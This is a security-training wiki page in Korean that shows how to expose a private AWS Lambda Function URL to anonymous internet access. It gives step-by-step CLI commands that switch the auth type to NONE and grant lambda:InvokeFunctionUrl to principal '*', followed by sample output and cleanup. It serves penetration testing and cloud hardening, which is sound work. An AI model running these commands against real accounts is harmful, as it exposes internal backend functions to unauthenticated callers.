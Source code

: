 # AWS - Lambda Function URL Public Exposure (AuthType NONE + Public Invoke Policy)

{{#include ../../../../banners/hacktricks-training.md}}

Lambda Function URL를 Function URL AuthType을 NONE으로 전환하고 모든 사용자에게 lambda:InvokeFunctionUrl을 부여하는 resource-based policy를 연결하여 비공개 Lambda Function URL을 공개 무인증 엔드포인트로 바꿀 수 있습니다. 이는 내부 함수의 익명 호출을 가능하게 하며 민감한 백엔드 작업을 노출시킬 수 있습니다.

## 악용 방법

- 사전 요구사항: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- 리전: us-east-1

### 단계
1) 함수에 Function URL이 있는지 확인 (기본값은 AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) URL을 공개로 전환 (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) 인증되지 않은 주체가 접근할 수 있도록 resource-based policy 문을 추가:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) URL을 가져와 자격증명 없이 호출:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### 영향
- Lambda 함수가 인터넷을 통해 익명으로 접근 가능해집니다.

### 예시 출력 (인증되지 않은 200)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### 정리
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```
{{#include ../../../../banners/hacktricks-training.md}}
